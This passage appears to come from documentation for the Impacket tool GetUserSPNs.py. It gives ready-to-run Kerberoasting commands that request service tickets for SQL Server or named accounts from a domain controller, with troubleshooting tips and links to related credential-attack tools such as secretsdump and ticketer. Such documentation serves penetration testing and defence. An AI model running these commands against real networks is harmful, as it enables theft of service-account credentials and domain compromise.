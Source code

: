 ### Roasting Specific Services
```bash
# Target only SQL Server services
python3 GetUserSPNs.py domain.com/user:password -dc-ip 192.168.1.10 -request | grep -i mssql

# Target specific SPN
python3 GetUserSPNs.py domain.com/user:password -dc-ip 192.168.1.10 -request-user sqlservice
```

## Common Errors and Troubleshooting

### Clock Skew Issues
```bash
# Synchronize time with domain controller
sudo ntpdate dc.domain.com
```

### Encryption Type Issues
```bash
# Force RC4 encryption (weaker but easier to crack)
# This is usually automatic but may need registry changes on newer systems
```

### No SPNs Found
```bash
# Verify domain connectivity
python3 GetADUsers.py domain.com/user:password -dc-ip 192.168.1.10

# Check if user has appropriate permissions
python3 GetUserSPNs.py domain.com/user:password -dc-ip 192.168.1.10 -debug
```

## Related Tools
- [GetNPUsers.py](GetNPUsers.md) - ASREPRoasting (complementary attack)
- [GetADUsers.py](GetADUsers.md) - User enumeration for target identification
- [getST.py](getST.md) - Request specific service tickets
- [ticketer.py](ticketer.md) - Create tickets with compromised credentials
- [secretsdump.py](secretsdump.md) - Extract credentials after successful compromise
- [rbcd.py](rbcd.md) - Leverage compromised service accounts for RBCD attacks
